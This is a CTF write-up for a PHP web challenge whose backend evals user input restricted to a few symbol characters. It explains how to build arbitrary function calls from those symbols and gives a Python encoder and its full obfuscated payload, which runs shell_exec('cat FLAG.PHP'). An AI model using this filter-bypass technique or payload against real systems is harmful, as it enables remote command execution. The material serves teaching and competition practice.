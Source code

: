 # Jailoo Warmup (Web)

We have a webpage containing a form with a text input box and a submit button. We are also given this fragment of backend code:
```php
<?php 
	if(sizeof($_REQUEST)===2&& sizeof($_POST)===2){
	$cmd=$_POST['cmd'];
	$submit=$_POST['submit'];
	if(isset($cmd)&& isset($submit)){
		if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
			echo "<div class=\"success\">Command executed !</div>";
			eval($cmd);
		}else{
			die("<div class=\"error\">NOT ALLOWED !</div>");
		}
	}else{
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	}else if ($_SERVER['REQUEST_METHOD']!="GET"){
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	 ?>
```
Finally, we are told that the flag is in `FLAG.PHP`.

It seems like the text we input will be directly executed as PHP code, but with restrictions: we can only use the characters `$()_[]=;+".`. Otherwise the server will return an error message.

Let's look at what we have. `$` allows us to define and reference variables. `_` is the only character we have that is valid in a variable name, so all our variables must be named `$_`, `$__`, `$___`, etc. `()` can be used for grouping. `[]` lets us write array literals and perform indexing. `=` can be used for assignment or the `==` operator. `;` is used to terminate statements. `+` can be used for the `+` and `++` operators. `"` is for string literals, and `.` is the string concatenation operator.

First of all, we can express `1` as `[]==[]`. If we have two numbers, we can also represent their sum using the `+` operator.

To get strings, we can use the `.` operator with arrays which converts them to strings. `[].[]` evaluates to `"ArrayArray"`. To get individual characters, we can use `[]` to index into the string, with the index constructed using numbers as described above.

Adding a number to a character does not do anything. However, if we have a variable containing a letter, and we apply the `++` operator on the variable, it becomes the next letter. For instance, if we have `$_` has value `'a'` and we run `$_++;` then `$_` will have value `'b'` afterwards. Note that this only works for (both lowercase and uppercase) letters. It does not work for any non-letter characters. Using this method, we can encode all letter strings, by starting with one of the letters in `"ArrayArray"` and continuously incrementing it.

PHP has an interesting feature where you can call strings as functions. The expression `("func")(x)` is the same as `func(x)`, i.e., when a string is called as a function, PHP finds the function in the current environment whose name is the string and calls that function with the given arguments. This allows us to programmatically construct the names of functions that we want to call, so that we don't have to refer to functions using their literal name (which would have letters and therefore would not be allowed). We can already encode any letter using the allowed characters (as well as `"_"` which is trivial), and we can concatenate letters together using `.`, so we can encode any single-argument function call, assuming that the argument is also encodable, and that the function name is composed of only letters and `_`. We cannot encode multi-argument function calls because `,` is not allowed.

However, at this point we still can only have letters and the allowed characters in strings. To be able to represent *any* character in a string, we can use the `chr` function. `chr` converts a character code into its corresponding character; for example, `chr(97)` is `"a"`. Since we can already represent any number, all we need to do is construct the character code and then call `chr` using the trick described above, where we encode `"chr"` and then call it on the number.

Now we need to think about what we want the exploit code to do. We need it to have output so that we can see the result on the returned HTML page. The standard way to do that in PHP is with `echo`. However, `echo` is a statement, not a function, so we cannot invoke it using the string calling trick. Luckily, PHP has actual functions which perform output as well; I came across the `print_r` function, which "prints human-readable information about a variable". For our purposes, it does the same thing as `echo`.

Once we have all this set up, we can try reading `FLAG.PHP`. I tried using the `file_get_contents`, but it didn't work. In fact, any PHP function involving file I/O, such as `file_exists` or `scandir`, didn't work. It seems like they disabled these functions to make the challenge harder. But found a function that *did* work: `shell_exec`. It takes a shell command, runs it, and returns the result as a string. Using this, we can read the file simply by calling `shell_exec("cat FLAG.PHP")`. (And we can do a lot of other things as well!) Therefore, the solution is to encode `print_r(shell_exec("cat FLAG.PHP"));`.

To perform the actual encoding, I wrote a Python script. At first, I used the most straighforward method of first obtaining the string `"chr"` using the incrementing method on a counter variable, then representing every character as `("chr")(1+1+1+...+1)` where each `1` is `([]==[])`. This resulted in very long generated code. When I tried submitting it, it would fail with an error, even though the code only contained the allowed characters. Upon further experimentation, it turned out that the `preg_match_all` function silently fails if the input is over 2047 characters long. So I needed to make the script more sophisticated to optimize the size of the generated code. In the end, I decided to create variables holding the powers of 2. Each variable is the sum of two of the previous one, and the first one is `[]==[]`. Then any character code can be represented efficiently as the sum of certain powers of 2. This allowed the code size to be well within the limit, and I obtained the flag. It turned out that `FLAG.PHP` had the flag inside a HTML comment, so I couldn't see it on the page at first and had to open developer tools to see it.

Here is the script:
```python
allowed = '$()_[]=;+".'

def var(n: int) -> str:
    return '$' + '_' * n

ctr = var(1)
c_ = var(3)
h_ = var(4)
chr_ = var(1)

bin_limit = 7

def bin_num(k: int) -> str:
    return var(k + 2)

one = bin_num(0)

def encode_num(n: int) -> str:
    return '+'.join(bin_num(k) for k in range(bin_limit) if (1 << k) & n)

def inc(n: int) -> str:
    return f'{ctr}++;' * n

def inc_diff(c1: str, c2: str) -> str:
    return inc(ord(c2) - ord(c1))

header = (f'{one}=[]==[];\
{ctr}=([].[])[{one}+{one}+{one}];\
{inc_diff("a", "c")}\
{c_}={ctr};\
{inc_diff("c", "h")}\
{h_}={ctr};\
{inc_diff("h", "r")}\
{chr_}={c_}.{h_}.{ctr};'
+ ''.join(f'{bin_num(k)}={bin_num(k-1)}+{bin_num(k-1)};' for k in range(1, bin_limit)))

def encode_char(c: str) -> str:
    if c in allowed and c != '"':
        return '"' + c + '"'
    return f'{chr_}({encode_num(ord(c))})'

def encode_str(s: str) -> str:
    return '(' + '.'.join(map(encode_char, s)) + ')'

encoded = header + f'{encode_str("print_r")}({encode_str("shell_exec")}{encode_str("cat FLAG.PHP")});'
assert all(c in allowed for c in encoded)
print(encoded)
```
and the output is
```
$__=[]==[];$_=([].[])[$__+$__+$__];$_++;$_++;$___=$_;$_++;$_++;$_++;$_++;$_++;$____=$_;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_=$___.$____.$_;$___=$__+$__;$____=$___+$___;$_____=$____+$____;$______=$_____+$_____;$_______=$______+$______;$________=$_______+$_______;($_($______+$_______+$________).$_($___+$______+$_______+$________).$_($__+$_____+$_______+$________).$_($___+$____+$_____+$_______+$________).$_($____+$______+$_______+$________)."_".$_($___+$______+$_______+$________))(($_($__+$___+$______+$_______+$________).$_($_____+$_______+$________).$_($__+$____+$_______+$________).$_($____+$_____+$_______+$________).$_($____+$_____+$_______+$________)."_".$_($__+$____+$_______+$________).$_($_____+$______+$_______+$________).$_($__+$____+$_______+$________).$_($__+$___+$_______+$________))($_($__+$___+$_______+$________).$_($__+$_______+$________).$_($____+$______+$_______+$________).$_($_______).$_($___+$____+$________).$_($____+$_____+$________).$_($__+$________).$_($__+$___+$____+$________).".".$_($______+$________).$_($_____+$________).$_($______+$________)));
```
